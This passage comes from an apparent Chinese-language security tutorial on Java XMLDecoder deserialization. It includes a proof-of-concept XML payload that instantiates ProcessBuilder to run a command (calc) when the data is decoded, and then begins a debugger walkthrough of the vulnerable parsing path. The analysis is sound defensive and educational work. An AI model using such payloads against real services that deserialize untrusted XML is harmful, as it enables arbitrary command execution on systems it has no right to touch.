 ```
                "   <string>321</string>\n" +
                "   <object class=\"java.util.ArrayList\"/>\n" +
                "  </void>\n" +
                " </object>\n" +
                "</java>";
        StringBufferInputStream stringBufferInputStream = new StringBufferInputStream(s);
        XMLDecoder xmlDecoder = new XMLDecoder(stringBufferInputStream);
        Object o = xmlDecoder.readObject();
        System.out.println(o);

    }
}
```

![img](https://p3-tt-ipv6.byteimg.com/large/pgc-image/ddf716e9a208411abf3e5167869034d6)

就可以把之前的xml数据反序列化回map对象，那么如果对xml数据进行修改，使其变成一个执行命令的数据。比如说：

```
<java version="1.7.0_80" class="java.beans.XMLDecoder">
 <object class="java.lang.ProcessBuilder">
  <array class="java.lang.String" length="1">
    <void index="0"><string>calc</string></void>
  </array>
  <void method="start"></void>
 </object>
</java>
```

然后对其反序列化即可执行命令弹出计算器。

![img](https://p6-tt-ipv6.byteimg.com/large/pgc-image/75194daffb484657a0706b989f228eaa)

现在我们知道了如果使用XMLDecoder去反序列化xml数据，数据中包含的命令会被执行。接下来就对其进行分析一下。

# XMLDecoder反序列化漏洞成因

# 一、XML数据解析前的函数处理

![img](https://p26-tt.byteimg.com/large/pgc-image/1684f881b73c4350b9c0129f46dc9e1e)

在readObject处打上断点开始debug

![img](https://p9-tt-ipv6.byteimg.com/large/pgc-image/23e1d9c47bcb4dc48dde5b787404b85c)

进入了parsingComplete方法，跟进。

![img](https://p9-tt-ipv6.byteimg.com/large/pgc-image/c8691456a2604e6086c0ce7b1f6ad1a1)

其中使用XMLDecoder的handler属性DocumentHandler的parse方法，并且传入了我们输入的xml数据，跟进。
